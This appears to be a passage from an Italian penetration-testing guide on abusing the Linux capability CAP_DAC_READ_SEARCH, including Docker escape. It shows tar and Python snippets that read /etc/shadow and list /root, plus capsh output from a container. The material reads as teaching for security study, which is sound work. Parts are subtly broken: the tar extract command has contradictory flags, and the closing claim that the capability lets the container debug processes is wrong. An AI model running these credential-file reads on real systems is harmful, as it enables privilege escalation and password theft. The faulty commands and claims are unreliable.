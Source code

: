 Un altro esempio di questa tecnica può essere trovato in [https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host](https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host)

## CAP_DAC_READ_SEARCH

[**CAP_DAC_READ_SEARCH**](https://man7.org/linux/man-pages/man7/capabilities.7.html) consente a un processo di **bypassare i permessi per la lettura dei file e per la lettura e l'esecuzione delle directory**. Il suo utilizzo principale è per scopi di ricerca o lettura di file. Tuttavia, consente anche a un processo di utilizzare la funzione `open_by_handle_at(2)`, che può accedere a qualsiasi file, inclusi quelli al di fuori dello spazio dei nomi di montaggio del processo. L'identificatore utilizzato in `open_by_handle_at(2)` dovrebbe essere un identificatore non trasparente ottenuto tramite `name_to_handle_at(2)`, ma può includere informazioni sensibili come numeri di inode che sono vulnerabili a manomissioni. Il potenziale di sfruttamento di questa capacità, in particolare nel contesto dei container Docker, è stato dimostrato da Sebastian Krahmer con l'exploit shocker, come analizzato [qui](https://medium.com/@fun_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3).
**Questo significa che puoi** **bypassare i controlli dei permessi di lettura dei file e i controlli dei permessi di lettura/esecuzione delle directory.**

**Esempio con binario**

Il binario sarà in grado di leggere qualsiasi file. Quindi, se un file come tar ha questa capacità, sarà in grado di leggere il file shadow:
```bash
cd /etc
tar -czf /tmp/shadow.tar.gz shadow #Compress show file in /tmp
cd /tmp
tar -cxf shadow.tar.gz
```
**Esempio con binary2**

In questo caso supponiamo che il binario **`python`** abbia questa capacità. Per elencare i file di root, potresti fare:
```python
import os
for r, d, f in os.walk('/root'):
for filename in f:
print(filename)
```
E per leggere un file potresti fare:
```python
print(open("/etc/shadow", "r").read())
```
**Esempio in Ambiente (uscita da Docker)**

Puoi controllare le capacità abilitate all'interno del contenitore docker usando:
```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
All'interno dell'output precedente puoi vedere che la capacità **DAC_READ_SEARCH** è abilitata. Di conseguenza, il container può **debuggare i processi**.
